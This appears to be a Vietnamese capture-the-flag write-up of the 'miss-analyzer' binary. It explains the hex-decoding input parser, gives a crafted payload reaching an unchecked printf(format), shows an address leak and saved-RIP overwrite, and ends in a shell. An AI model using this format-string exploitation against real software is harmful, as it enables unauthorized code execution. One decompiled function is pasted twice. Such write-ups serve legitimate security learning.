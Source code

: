 # write up miss-analyzer 

- ở bài này đầu tiên phải bắt đầu với hàm hexs2bin
```c
size = hexs2bin(v3, &pointerofbuff);
```
- hàm này có nhiệm vụ chuyển hết các kết quả mà chúng ta nhập vào thành dạng như này
- ví dụ aaaaaabbbbbbbcccccc thành  0xccccbbbbbbabaaaa hoặc  1234abcd6789 thành 0x8967cdab3412
- sau đó mang nó đem đi thực hiện các thao tác ở các hàm khác
- nhưng các ký tự chỉ được nhập trong vùng cho phép

```c
__int64 __fastcall hexchr2bin(char buff, _BYTE *container)
{
  if ( !container )
    return 0LL;
  if ( buff <= '/' || buff > '9' )
  {
    if ( buff <= '@' || buff > 'F' )
    {
      if ( buff <= '`' || buff > 'f' )
        return 0LL;
      *container = buff - 87;
    }
    else
    {
      *container = buff - 55;
    }
  }
  else
  {
    *container = buff - 48;
  }
  return 1LL;
}__int64 __fastcall hexchr2bin(char buff, _BYTE *container)
{
  if ( !container )
    return 0LL;
  if ( buff <= '/' || buff > '9' )
  {
    if ( buff <= '@' || buff > 'F' )
    {
      if ( buff <= '`' || buff > 'f' )
        return 0LL;
      *container = buff - 87;
    }
    else
    {
      *container = buff - 55;
    }
  }
  else
  {
    *container = buff - 48;
  }
  return 1LL;
}
```
- và số ký tự nhập vào phải là số chẵn nếu không chương trình sẽ dừng tại đây
```c
 if ( !size )
    {
      puts("Error: failed to decode hex");
      return 1;
    }
```
- nó thực hiện check qua cái này: 
```c
if ( (size & 1) != 0 )
    return 0LL;
```
- tiếp theo là hàm này

```c
__int64 __fastcall read_byte(_QWORD *pointerofbuff, _QWORD *size)
{
  unsigned __int8 incbuff; // [rsp+1Fh] [rbp-1h]

  if ( !*size )
  {
    puts("Error: failed to read replay");
    exit(1);
  }
  incbuff = *(_BYTE *)(*pointerofbuff)++;
  --*size;
  return incbuff;
}
```
- hàm này sẽ cộng địa chỉ được chứa trong pointerofbuff là buff lên 1 đơn vị và giảm size xuống 1 đơn vị
- vì vậy sau mỗi lần chạy nó sẽ giảm size xuống và số ký tự đc chứa trong địa chỉ ở trong pointerofbuff cũng giảm theo
```c
 consume_bytes(&pointerofbuff, &size, 4);
```
với hàm này cũng có cơ chế tương tự read_bytes nhưng mà ta có thể thay đổi số bytes, số bytes đó sẽ giảm size xuống và tăng giá trị của pointerofbuff theo số bytes đó 
- thông qua các cơ chế trên thì ta có thể nhập bytes cho phù hợp để vượt qua các hàm trên thông qua việc nhập ký tự là 8 bytes a đầu, chủ yếu là các hàm read_bytes và consume_bytes
```c
puts("Submit replay as hex (use xxd -p -c0 replay.osr | ./analyzer):");
    buff = 0LL;
    n = 0LL;
    if ( getline(&buff, &n, stdin) <= 0 )
      break;
    buff[strcspn(buff, "\n")] = 0;
    if ( !*buff )
      break;
    size = hexs2bin(buff, &pointerofbuff);
    if ( !size )
    {
      puts("Error: failed to decode hex");
      return 1;
    }
    puts("\n=~= miss-analyzer =~=");
    choice = read_byte(&pointerofbuff, &size);
    if ( choice )
    {
      switch ( choice )
      {
        case 1:
          puts("Mode: osu!taiko");
          break;
        case 2:
          puts("Mode: osu!catch");
          break;
        case 3:
          puts("Mode: osu!mania");
          break;
      }
    }
    else
    {
      puts("Mode: osu!");
    }
    consume_bytes(&pointerofbuff, &size, 4);
```
- để có thể vượt qua hàm read_string thì ta phải nhập thêm 2 bytes a nữa cộng thêm bytes 0b
```c
 result = (_BYTE *)read_byte(buff, size);
  if ( (_BYTE)result )
  {
    if ( (_BYTE)result != 0xB )
    {
      puts("Error: failed to read string");
      exit(1);
    }
```
- để vượt các vòng lặp dưới nữa của hàm nàyvà có thể điều khiển số bytes nhập vào biến format ta có thể cộng thêm chuỗi nhập vào ban đầu là số nhưng phải bao gồm 2 chữ số
```c
   v10 = 0;
    for ( i = 0; ; i += 7 )
    {
      byte = read_byte(buff, size);
      v10 |= (byte & 127) << i;
      if ( byte >= 0 )
        break;
    }
    for ( j = 0; ; ++j )
    {
      v6 = a4;
      if ( a4 > v10 )
        v6 = v10;
      if ( v6 <= j )
        break;
      a3[j] = read_byte(buff, size);
    }
    while ( v10 > j )
```
- đây chính là nơi mà tạo ra size cho việc nhập format
```c
byte = read_byte(buff, size);
      v10 |= (byte & 127) << i;

```
```c
  read_string(&pointerofbuff, &size, format, '\xFF');
    printf("Hash: %s\n", format);
    read_string(&pointerofbuff, &size, format, 0xFFu);
    printf("Player name: ");
    printf(format);
```
- ở trong payload sẽ bao gồm việc vượt qua các hàm trên để đến được formatstring
```python
b'a'*10 +  b'0b' +b'08' + b'aabaaaaaabaaaaaa' + b'0b' + b'08' +  b'2535312470000000'
```
- format string sẽ được dịch lại tương tự như cách dịch của hàm hexs2bin: 2535312470000000
- sau khi nhập vào thì sẽ leak được địa chỉ và quay lại 1 vòng lặp mới
```assembly
  0x401928 <main+607>    mov    eax, 0
   0x40192d <main+612>    call   printf@plt                      <printf@plt>
 
   0x401932 <main+617>    lea    rax, [rbp - 0x120]
   0x401939 <main+624>    mov    rdi, rax
   0x40193c <main+627>    mov    eax, 0
 ► 0x401941 <main+632>    call   printf@plt                      <printf@plt>
        format: 0x7fffffffe4e0 ◂— 0x7024313525 /* '%51$p' */
        vararg: 0x7fffffffc380 ◂— 0x6e20726579616c50 ('Player n')
 
   0x401946 <main+637>    mov    edi, 0xa
   0x40194b <main+642>    call   putchar@plt                      <putchar@plt>
 
   0x401950 <main+647>    lea    rdx, [rbp - 0x120]
   0x401957 <main+654>    lea    rsi, [rbp - 0x130]
   0x40195e <main+661>    lea    rax, [rbp - 0x128]
```
- sau khi leak được địa chỉ thì đến bước ghi payload, em sẽ có 3 địa chỉ để ghi vào saved-rip, mỗi địa chỉ ghi 3 lần vì thế em cần viết hàm để ghi qua formatstring
- vì hàm main lặp lại nên có thể ghi nhiều lần tùy ý
- sau khi ghi xong và thoát khỏi vòng lặp thì em có thể chạy shell

[*] 0x2563343139383525
[*] 0x202020206e682436
[*] this is part 2 of addr 0x7fffffffe620: 0xf7c5
[*] this is package part 2: 0xe622
[*] Switching to interactive mode
```c
Error: failed to decode hex
$ ls
Dockerfile    analyzer_patched        analyzer_patched.id2  ld-2.35.so
analyzer      analyzer_patched.i64  analyzer_patched.nam  libc.so.6
analyzer.i64  analyzer_patched.id0  analyzer_patched.til  miss.md
analyzer.py   analyzer_patched.id1  flag.txt          start-docker.sh
```
